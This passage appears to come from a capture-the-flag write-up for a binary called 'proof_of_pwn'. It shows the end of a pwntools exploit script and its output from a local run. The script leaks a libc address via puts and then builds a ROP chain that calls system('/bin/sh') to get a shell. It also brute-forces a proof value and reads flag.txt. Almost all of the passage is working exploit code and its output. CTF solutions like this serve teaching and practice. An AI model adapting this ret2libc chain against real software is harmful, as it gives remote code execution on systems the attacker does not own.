 ```python
rop      += p64(0x00400bed) # check function
payload   = brute_payload(proof, fit({72:rop}))

p.sendafter(b"\n", payload)
p.recvuntil(b"\n\n")

puts      = u64(p.recvline().strip().ljust(8, b"\x00"))
libc_base = puts - libc.sym.puts
system    = libc_base + libc.sym.system
binsh     = libc_base + next(libc.search("/bin/sh"))
log.info("libc base:      0x{:x}".format(libc_base))
log.info("system:         0x{:x}".format(system))
log.info("binsh:          0x{:x}".format(binsh))

proof = p.recvline().split()[-1]
log.info("required proof: {}".format(proof.decode("utf-8")))

rop      = p64(context.binary.findgadgetbystr("pop rdi;ret"))
rop     += p64(binsh)
rop     += p64(system)
rop     += p64(context.binary.findgadgetbystr("mov eax, 0;leave;ret"))
payload  = brute_payload(proof, fit({72:rop}))

p.sendafter(b": \n", payload)
p.recvuntil(b"\n\n")

p.sendline(b"cat flag.txt; exit")
log.info("flag:           {}".format(p.recvall().decode("utf-8")))

p.close()
```

### Output (local run)
```
$ python exploit.py     
[INFO]:  Opening binary ./libc.so.6
──────────────────────────────────────────────────────────────────────────────
arch                            x86
bits                            64
endian                          little
os                              linux
static                          False
stripped                        True
canary                          True
nx                              True
pic                             True
relocs                          False
sanitiz                         False
──────────────────────────────────────────────────────────────────────────────
[INFO]:  Opening binary ./proof_of_pwn
──────────────────────────────────────────────────────────────────────────────
arch                            x86
bits                            64
endian                          little
os                              linux
static                          False
stripped                        True
canary                          False
nx                              True
pic                             False
relocs                          False
sanitiz                         False
──────────────────────────────────────────────────────────────────────────────
```

[INFO]:  Process started with PID 17148 ./proof_of_pwn
[INFO]:  required proof: 289510e3b590959fb0b0177fe57612d3
[INFO]:  libc base:      0x7f10f5e8e000
[INFO]:  system:         0x7f10f5ed3390
[INFO]:  binsh:          0x7f10f601ad57
[INFO]:  required proof: b222d1572a57e35c7416ff32e234f90a
[INFO]:  flag:           ptm{p00r_8rut3f0rc1ng_c4n_h3lp}
[INFO]:  Process 17148 exited with code -7